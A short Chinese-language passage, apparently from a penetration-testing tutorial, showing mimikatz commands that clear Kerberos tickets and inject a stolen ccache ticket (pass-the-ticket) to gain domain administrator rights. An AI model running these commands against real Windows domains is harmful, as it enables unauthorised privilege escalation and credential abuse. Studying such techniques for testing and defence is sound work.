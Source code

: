 ![](img/5.gif)

#### 在内存中写入证书

利用 `mimikatz.exe` 将证书写入，从而提升为域管理员

```bash
log               //开启mimikatz的日志 会在当前目录下生成txt用于复制信息
kerberos::list   //查看当前凭证
kerberos::purge  //清除凭证
kerberos::list   //再次查看，确保无凭证
kerberos::ptc    //你的证书名字

kerberos::ptc TGT_test1@test.com.ccache
```
